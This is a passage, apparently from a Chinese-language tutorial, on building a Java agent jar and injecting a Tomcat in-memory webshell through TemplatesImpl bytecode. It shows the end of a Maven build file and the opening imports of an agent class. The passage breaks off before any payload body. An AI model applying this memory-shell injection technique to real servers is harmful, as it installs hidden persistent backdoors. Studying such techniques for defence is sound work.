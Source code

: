 ```java
                <version>2.3.2</version>
                <configuration>
                    <archive>
                        <manifestFile>src/main/resources/MANIFEST.MF</manifestFile>
                    </archive>
                </configuration>
            </plugin>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-shade-plugin</artifactId>
                <version>2.3</version>
                <executions>
                    <execution>
                        <phase>package</phase>
                        <goals>
                            <goal>shade</goal>
                        </goals>
                        <configuration>
                            <artifactSet>
                                <includes>
                                    <include>org.javassist:javassist:jar:*</include>
                                </includes>
                            </artifactSet>
                        </configuration>
                    </execution>
                </executions>
                <dependencies>
                    <dependency>
                        <groupId>com.sun</groupId>
                        <artifactId>tools</artifactId>
                        <systemPath>${project.basedir}/lib/tools.jar</systemPath>
                        <version>1.8</version>
                        <scope>system</scope>
                    </dependency>
                </dependencies>
            </plugin>
        </plugins>
    </build>

</project>
```

这样我们的jar就制作好了

用TemplatesImpl字节码完成写jar和注入：

注意Tomcat环境下web jvm默认为`org.apache.catalina.startup.Bootstrap`

```java
package org.example.tomcatmemshell.Agent;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.File;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.Base64;


```
